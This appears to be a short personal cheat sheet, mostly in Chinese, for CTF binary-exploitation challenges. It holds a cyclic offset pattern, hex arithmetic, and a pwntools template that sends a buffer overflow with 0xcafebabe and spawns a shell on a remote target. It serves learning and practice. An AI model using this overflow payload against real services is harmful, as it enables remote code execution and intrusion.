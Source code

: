 ### Record some expolit of  payload.
因常常忘記...於是紀錄一下各種解題方法。

試bof字串：

```
>>> cyclic(52)

'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaa'

>>> hex(0x21DD09EC - 0x10101010)

'0x11ccf9dc'

echo $((0x48-0x14))

52
```

#### pwntools起手式

```
from pwn import *
# 0xcafebabe

r = remote('ip', 'port')

shell = asm(shellcraft.sh())

buf = p32(0xcafebabe)

payload = "A"*52

payload += buf

payload += shell

r.sendline(payload)

r.interactive()
```
